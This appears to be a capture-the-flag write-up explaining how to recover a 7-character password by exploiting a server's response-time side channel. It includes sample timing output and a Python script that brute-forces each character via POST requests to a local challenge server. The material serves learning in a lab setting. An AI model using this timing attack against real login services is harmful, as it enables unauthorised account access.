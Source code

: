 We are about to exploit the time delay vulnerability in the server code, here is my thinking, now first of all what are the character sets or the domain of characters that we are about to use in the script. We in the gray-area ourselves so, let’s go with `abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ` , actually I used with numbers at first but moved on to without them. Now the idea is to induce a side-channel attack on the time vulnerability, at least this is what a guy on Discord said after the event, I didn’t know all that, so the idea is to, start of with an empty array of 7 `[#, #, #, #, #, #, #]` then iterate each character in the character with the POST request to the server, so the first set of iterations in the first loop would be [a, #, #, #, #, #, #] [b, #, #, #, #, #, #] [c, #, #, #, #, #, #] . Now important thing here would be to measure the response time of the server. Now that we’re testing the validity of the first character, whenever the response time of the server exceed 1 second, it is safe to assume that that character is correct and we move on to the next character iteration loop, so in the test password [`zExQWkq`] where `z` is the valid first character, we see in the output snippet below that the check of `z` comes after a delay of 1 second, and it is indeed the right character.

```python
Testing: y###### | Time taken: 0.00 seconds
Testing: z###### | Time taken: 1.01 seconds
Testing: A###### | Time taken: 0.01 seconds
```

Now, the loop updates the known list to append the right character at the start and moves on to iterate through the next character set.

```python
Updated password: z######
Finding character at position 2...
Testing: za##### | Time taken: 1.01 seconds
Testing: zb##### | Time taken: 1.01 seconds
```

And this continues until it goes through all the 7 character list to get the final password.

Basically brute-forcing each character and exploiting the time vulnerability.

Here is the code I used to solve the challenge locally.

```python
import requests
import time

url = 'http://localhost:5000'

length = 7
charset = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'

def generate(currentPassword, position):
    TPassword = []
    for char in charset:
        test_password = currentPassword[:position] + char + '#' * (length - position - 1)
        TPassword.append(test_password)
    return TPassword

def TPassword(TPassword):
    times = {}

    for password in TPassword:
        start_time = time.time()
        response = requests.post(url, data={'password': password})
        elapsed_time = time.time() - start_time

        print(f'Testing: {password} | Time taken: {elapsed_time:.2f} seconds')

        times[password] = elapsed_time

    correctPassword = max(times, key=times.get)
    return correctPassword

```
